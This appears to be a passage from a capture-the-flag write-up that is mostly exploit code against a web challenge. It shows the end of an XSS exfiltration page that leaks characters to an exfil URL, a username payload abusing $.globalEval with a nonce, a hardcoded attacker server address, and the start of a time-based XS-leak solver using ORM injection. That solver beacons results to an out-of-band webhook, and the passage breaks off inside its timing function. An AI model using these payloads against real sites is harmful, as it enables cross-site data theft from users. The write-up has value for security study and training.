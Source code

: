 ```php
            .then(r=>r.text())
            .then(text=>{
                if (!text.includes("Songs Not Found")) {
                    found += chrs[i];
                    fetch(exfil + encodeURI(found));
                }
            })
        }
    }
})()`);
        })();
    </script>
</body>
</html>
```

> 💡 Note:

    First, you need to register a user with the username `"+$.globalEval(name, {nonce:"{{nonce}}"})+"`. Then, host the HTML file on your server, replacing `http://103.185.44.93:8989` with your own server's address.

# Intended Solution solver

Using time based XSLEAK:

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
     <form id="formize" action="" target="bz" method="get">
        <input type="submit" value="">
     </form>
    <script>
        let webhook = "http://iyadmuyyzzqjoeobxwjt6pgn9iuo1w6a7.oast.fun/?log"
        let remote = "http://nginx/"
        const log = (msg) => {
            console.log(msg);
            navigator.sendBeacon(webhook, msg);
        }
        const sleep = ms => new Promise(r => setTimeout(r, ms));
        
        function exploit(payload){
            return new Promise((resolve, reject) => {
                // ORM Injection
                var win = window.open(`${remote}songs/search?filter[user.full_name]=${encodeURIComponent(payload)}`);
                var start = performance.now();
                function measure(){
                    try{
                        // recursive until the origin is different
                        win.origin;
                        setTimeout(measure, 0);
                    }catch(e){
                        var time = performance.now() - start;
                        resolve(time)

                        win.close()
                    }
```